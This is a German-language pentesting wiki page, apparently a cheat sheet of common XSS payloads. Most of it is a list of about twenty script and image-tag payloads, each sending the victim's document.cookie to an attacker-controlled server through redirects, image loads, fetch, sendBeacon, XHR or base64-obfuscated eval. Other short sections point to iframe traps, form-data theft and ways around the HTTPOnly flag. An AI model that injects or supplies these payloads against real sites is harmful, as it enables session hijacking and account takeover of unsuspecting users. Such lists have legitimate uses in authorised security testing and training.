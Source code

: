 ```javascript
// It's also possible to execute JS code only with the chars: []`+!${}
```
## XSS häufige Payloads

### Mehrere Payloads in 1

{% content-ref url="steal-info-js.md" %}
[steal-info-js.md](steal-info-js.md)
{% endcontent-ref %}

### Iframe Falle

Lassen Sie den Benutzer auf der Seite navigieren, ohne ein Iframe zu verlassen, und stehlen Sie seine Aktionen (einschließlich Informationen, die in Formularen gesendet werden):

{% content-ref url="../iframe-traps.md" %}
[iframe-traps.md](../iframe-traps.md)
{% endcontent-ref %}

### Cookies abrufen
```javascript
<img src=x onerror=this.src="http://<YOUR_SERVER_IP>/?c="+document.cookie>
<img src=x onerror="location.href='http://<YOUR_SERVER_IP>/?c='+ document.cookie">
<script>new Image().src="http://<IP>/?c="+encodeURI(document.cookie);</script>
<script>new Audio().src="http://<IP>/?c="+escape(document.cookie);</script>
<script>location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.location.href = 'http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie</script>
<script>document.write('<img src="http://<YOUR_SERVER_IP>?c='+document.cookie+'" />')</script>
<script>window.location.assign('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['assign']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>window['location']['href']('http://<YOUR_SERVER_IP>/Stealer.php?cookie='+document.cookie)</script>
<script>document.location=["http://<YOUR_SERVER_IP>?c",document.cookie].join()</script>
<script>var i=new Image();i.src="http://<YOUR_SERVER_IP>/?c="+document.cookie</script>
<script>window.location="https://<SERVER_IP>/?c=".concat(document.cookie)</script>
<script>var xhttp=new XMLHttpRequest();xhttp.open("GET", "http://<SERVER_IP>/?c="%2Bdocument.cookie, true);xhttp.send();</script>
<script>eval(atob('ZG9jdW1lbnQud3JpdGUoIjxpbWcgc3JjPSdodHRwczovLzxTRVJWRVJfSVA+P2M9IisgZG9jdW1lbnQuY29va2llICsiJyAvPiIp'));</script>
<script>fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie});</script>
<script>navigator.sendBeacon('https://ssrftest.com/x/AAAAA',document.cookie)</script>
```
{% hint style="info" %}
Sie **werden nicht in der Lage sein, auf die Cookies von JavaScript zuzugreifen**, wenn das HTTPOnly-Flag im Cookie gesetzt ist. Aber hier haben Sie [einige Möglichkeiten, diesen Schutz zu umgehen](../hacking-with-cookies/#httponly), wenn Sie genug Glück haben.
{% endhint %}
